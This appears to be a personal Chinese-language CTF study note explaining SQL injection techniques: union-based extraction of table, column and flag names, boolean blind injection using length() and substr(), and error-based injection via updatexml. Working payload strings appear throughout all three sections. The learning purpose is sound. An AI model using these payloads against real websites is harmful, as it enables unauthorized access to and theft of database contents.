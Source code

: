 ### CTF入门的一些知识和范式



#### SQL注入

1. 先找到是数字型注入还是字符型注入 并判断闭合符

​	id = 1 的回显是否和 id = 2-1 一样 -> 判断是何种注入

​	?id=1' and 1=2--+ -> 判断‘是否为闭合符

2. 找到回显位

​	?id=-1' union select 1,2,3--+ -> 判断哪一位为回显位

3. 开始利用范式找到表名（例如第2位为回显位）（结果为fl4g）

​	union select 1,database(),group_concat(**table_name**)from information_schema.tables where table_schema=**database()**--+

4. 再利用范式从表名中找到列名    （结果为fllllag）

   union select 1,database(),group_concat(**column_name**)from information_schema.columns where table_name=**'fl4g'**--+

5. 最后利用select从列名中找到flag

   union select 1,group_concat(fllllag)from fl4g--+



#### 布尔盲注

没有回显位时可用此方法注入 需用python脚本自动化此方法 但是待学习python脚本编程

1. 先找到数据库名的长度

   ```sql
   ?id=1 and length(database())=1
   #query_error
   ...
   ?id=1 and length(database())=4
   #query_success
   #库名长度为4
   
   ```

   

2. 在利用substr函数挨个找到database()的名字

   ```sql
   ?id=1 and substr(database(),1,1)=‘a’
   #query_error
   ...
   ?id=1 and substr(database(),1,1)=‘s’
   #query_success
   #库名第一个字符是s
   ...
   ?id=1 and substr(database(),4,1)=‘i’
   #query_success
   #库名第四个字符是i
   #库名是sqli
   
   ```

3. 此后便根据此找到database 的 表个数 表名 列个数 列名 内容 即可

   **人工巨麻烦，必须找到利用python脚本的方法**

#### 报错注入

当网站开启错误调试信息时可用此方法注入（不然只能盲注）

假设一个网站传入为name = xxxx, pass = xxxx

1. 利用范式找到database中的所有表名（此处pass被注释）

   name=1'and updatexml(1,concat(0x7e,(**SELECT group_concat(table_name) from information_schema.tables where table_schema=database()))**,1)--+&pass=xxxxx --+

   熟悉吗？接下来加粗部分同SQL注入即可



